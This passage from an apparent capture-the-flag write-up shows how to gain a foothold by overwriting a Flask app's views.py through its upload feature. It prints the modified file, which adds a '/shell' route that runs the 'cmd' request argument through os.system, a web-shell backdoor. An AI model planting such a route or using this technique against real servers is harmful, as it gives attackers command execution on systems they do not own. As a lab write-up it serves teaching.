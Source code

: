 ## Foothold

How we will abuse this functionality is we can try overwriting this `views.py` file on the server and add another route leading to command execution.

We change the `views.py` file as follows.

```
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/')
def index():
    return render_template('index.html')


@app.route('/download')
def download():
    return send_file(os.path.join(os.getcwd(), "app", "static", "source.zip"))


@app.route('/upcloud', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))


@app.route('/shell')

def rev_shell():

    return os.system(request.args.get('cmd'))
```

And now on `/upload` endpoint we upload our `views.py` file and manipulate the request as follows.
